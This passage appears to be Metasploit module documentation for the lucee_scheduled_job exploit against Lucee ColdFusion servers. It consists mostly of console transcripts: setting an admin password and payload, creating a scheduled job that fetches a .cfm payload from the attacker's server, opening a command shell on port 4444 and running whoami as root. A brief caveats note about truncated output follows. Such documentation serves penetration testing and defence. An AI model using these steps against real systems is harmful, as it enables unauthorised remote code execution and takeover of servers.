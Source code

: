 ```
[*] Using URL: http://192.168.19.145:8081/CUyWHyD6Y.cfm
[+] Job CUyWHyD6Y created successfully
[+] Job CUyWHyD6Y updated successfully
[*] Executing scheduled job: CUyWHyD6Y
[+] Job CUyWHyD6Y executed successfully
[*] Attempting to access payload...
[*] Payload request received for /CUyWHyD6Y.cfm?RequestTimeout=50 from 192.168.19.145
[*] Attempting to access payload...
[*] Received 500 response from CUyWHyD6Y.cfm Check your listener!
[+] Exploit completed.
[*] Removing scheduled job CUyWHyD6Y
[+] Scheduled job removed.
[+] Deleted /srv/www/app/webroot/CUyWHyD6Y.cfm
[*] Command shell session 1 opened (192.168.19.145:4444 -> 192.168.19.145:58686) at 2023-02-28 19:56:11 -0600
[*] Server stopped.

whoami
root
```
### Successful exploitation of a Docker host running Lucee 5.1.4.19 executing whoami
```
msf > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(multi/http/lucee_scheduled_job) > set target 1
target => 1
msf exploit(multi/http/lucee_scheduled_job) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(multi/http/lucee_scheduled_job) > set payload cmd/unix/generic
payload => cmd/unix/generic
msf exploit(multi/http/lucee_scheduled_job) > set CMD whoami
CMD => whoami
msf exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(multi/http/lucee_scheduled_job) > run

[+] Authenticated successfully
[*] Using URL: http://192.168.19.145:8081/GCHSFzGe.cfm
[+] Job GCHSFzGe created successfully
[+] Job GCHSFzGe updated successfully
[*] Executing scheduled job: GCHSFzGe
[+] Job GCHSFzGe executed successfully
[*] Attempting to access payload...
[*] Payload request received for /GCHSFzGe.cfm?RequestTimeout=50 from 192.168.19.145
[+] Received 200 response from GCHSFzGe.cfm
[+] Output: root
[+] Exploit completed.
[*] Removing scheduled job GCHSFzGe
[+] Scheduled job removed.
[*] Server stopped.
[!] This exploit may require manual cleanup of '/srv/www/app/webroot/GCHSFzGe.cfm' on the target
[*] Exploit completed, but no session was created.
```
## Caveats
There are a few caveats worth mentioning that are inherent to Lucee's implementation of ColdFusion
 - When a shell command returns multiple lines of output, coldfusion may limit the amount that is returned; i.e. it
   will return the full value of an `ls` command, but it may not return the full value of `netstat`

